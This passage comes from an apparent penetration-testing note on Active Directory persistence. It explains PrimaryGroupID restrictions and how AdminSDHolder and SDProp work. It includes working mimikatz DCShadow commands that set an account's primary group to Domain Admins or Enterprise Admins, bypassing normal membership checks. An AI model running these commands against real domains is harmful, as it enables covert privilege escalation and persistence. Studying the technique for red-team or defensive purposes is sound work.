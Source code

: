 Under normal circumstances, the account must be a member of the group specified
in its `PrimaryGroupID` attribute. An error indeed occurs whenever trying to
set the `PrimaryGroupID` attribute of an account to the `RID` of a group the
account is a not a member of (error: "The specified user account is a not a
member of the specified group account"). A similar error occurs whenever
attempting to remove an account from the group set in its `PrimaryGroupID`
(error: "The primary group cannot be removed. Set another group as primary if
you want to remove this one".)

The restriction of membership can be bypassed through a `DCShadow` attack to
arbitrarily set an account `PrimaryGroupID` attribute. For more details on the
`DCShadow` attack, refer to the "DCShadow ACL" section of this note.

```
# Two mimikatz interpreters (executed on a machine member of the domain) are required for the DCShadow attack:
# One running as "NT AUTHORITY\SYSTEM", the second as a domain user with enough privileges to conducted the DCShadow attack (usually a "Domain Admins").
# The following mimikatz commands must be executed sequentially (the /push must be done after the operation as been entered).

# First interpreter (executed as "NT AUTHORITY\SYSTEM").
mimikatz # lsadump::dcshadow /object:<USERNAME> /attribute:PrimaryGroupID /value:<512 | 519 | GROUP_RID>

# Second interpreter (executed as the privileged domain account).
mimikatz # lsadump::dcshadow /push
```

The following command can be used to validate the `PrimaryGroupID` attribute
modification:

```
Get-ADObject -Filter "(SamAccountName -eq '<SAMACCOUNTNAME>')" -Properties PrimaryGroupID
```

### AdminSDHolder ACL

*For a general overview of `Access Control Lists (ACL)`, refer to the
`[ActiveDirectory] ACL exploiting` note.*

A number of predefined privileged built-in accounts and groups (including their
members) are protected by the `SDProp` mechanism. `SDProp` is an automated
process that ensure that the `ACL` defined on the aforementioned protected
security principals match the `AdminSDHolder` object's `ACL` (and restore the
expected `ACL` in case of mismatch).

In addition to verifying and eventually restoring `ACL`, the `SDProp`
mechanism also disable `ACL` inheritance and set the `adminCount`
attribute of the protected principals to `0x1`. Note that users and groups
removed from the predefined privileged groups will no longer be protected by
the `SDProp` mechanism but will keep their `adminCount` attribute set to `0x1`
and `ACL` inheritance disabled.

The `SDProp` process runs every 60 minutes by default. This frequency of
execution can be modified using the
`HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters\AdminSDProtectFrequency`
registry key on the domain's PDC Emulator. Valid values range from 60 to 7200
seconds.
